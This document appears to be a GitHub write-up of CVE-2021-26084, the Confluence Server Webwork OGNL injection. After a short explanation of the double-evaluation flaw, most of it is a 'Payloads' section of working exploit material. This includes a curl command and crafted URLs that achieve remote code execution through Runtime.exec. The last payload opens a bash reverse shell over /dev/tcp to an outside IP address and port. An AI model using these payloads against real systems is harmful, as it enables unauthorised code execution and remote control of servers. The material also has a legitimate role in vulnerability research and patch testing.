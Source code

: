 # CVE-2021-26084

# Introduction
This write-up provides an overview of CVE-2021-26084 - Confluence Server Webwork OGNL injection [[1]](https://confluence.atlassian.com/doc/confluence-security-advisory-2021-08-25-1077906215.html) that would allow an authenticated user to execute arbitrary code on a Confluence Server or Data Center instance.

# TL;DR
Confluence Server / Data Center makes use of Webwork 2 MVC framework to process web requests and the view layer primarily consists of Velocity templates. A double evaluation is performed when velocity templates use Webwork tags with a value attribute that contains $. When a Webwork tag with a Value attribute that has a $ is encountered an initial evaluation happens in the parsing of Velocity template; this evaluated value is then passed to the Webwork tag which further evaluates the value as an OGNL expression. If the action class exposes a setter function for the parameter used in the value attribute then this parameter can be set from the URL by using URL params.. So by crafting a URL with an OGNL payload an attacker can perform remote code execution on the affected versions of the Confluence Server / Data Center.

# Payloads

```python
# UnAuthenticated RCE  - based on the awesome write-up  at httpvoid; courtesy of  Harsh Jaiswal(rootxharsh), Rahul Maini (iamnoooob) [8]
curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:8090' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: */*' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 186' --data-binary $'linkCreation=a%5Cu0027%2B%23attr%5B%5Cu0022webwork.valueStack%5Cu0022%5D.findValue%28%5Cu0022%40java.lang.Runtime%40getRuntime%28%29.exec%28%5Cu0027xcalc%5Cu0027%29%5Cu0022%29%2B%5Cu0027' $'http://localhost:8090/pages/doenterpagevariables.action'

# UnAuthenticated RCE for Confluence < 7.12.14, Only if allow people to sign up to create their account' is enabled. COG > User Management > User Signup Options.
http://localhost:8090/signup.action?token=%5Cu0027%2B%28%23attr%5B%5Cu0022webwork.valueStack%5Cu0022%5D%29.%28findValue%28%5Cu0022%40java.lang.Runtime%40getRuntime%28%29.exec%28%5Cu00
5C%5Cu0022xcalc%5Cu005C%5Cu0022%29%5Cu0022%29%29%2B%5Cu0027

# Authenticated RCE for Confluence < 7.12.14, a valid user account is required on the Confluence Server
http://localhost:8090/users/darkfeatures.action?featureKey=%5Cu0027%2B%28%23attr%5B%5Cu0022webwork.valueStack%5Cu0022%5D%29.%28findValue%28%5Cu0022%40java.lang.Runtime%40getRuntime%28
%29.exec%28%5Cu005C%5Cu0022xcalc%5Cu005C%5Cu0022%29%5Cu0022%29%29%2B%5Cu0027

# Authenticated RCE for for Confluence 7.12.14, the newSpaceKey parm is to be updated with the Space key of a space the user has Add Pages Permission
http://localhos:8090/pages/docreatepagefromtemplate.action?newSpaceKey=SAN&sourceTemplateId=uu%5Cu0027%2B%28%23attr%5B%5Cu0022webwork.valueStack%5Cu0022%5D%29.%28findValue%28%5Cu0022%
40java.lang.Runtime%40getRuntime%28%29.exec%28%5Cu005C%5Cu0022xcalc%5Cu005C%5Cu0022%29%5Cu0022%29%29%2B%5Cu0027

# The payload below spawns a reverse shell to a remote host running a netcat listener.BurpSuite addon Hackvertor tags has been used for readability and has to be converted accordingly
http://localhos:8090/pages/docreatepagefromtemplate.action?sourceTemplateId=oa<@urlencode_not_plus>\u0027+(#attr[\u0022webwork.valueStack\u0022]).(findValue(\u0022(#cmd=new
java.lang.String[]{\u0027/bin/bash\u0027,\u0027-c\u0027,\u0027<@unicode_escapes>exec 5<>/dev/tcp/35.224.37.217/8021;cat <&5 | while read line; do $line 2>&5 >&5;
done<@/unicode_escapes>\u0027}).(@java.lang.Runtime@getRuntime().exec(#cmd))\u0022))+\u0027<@/urlencode_not_plus>
```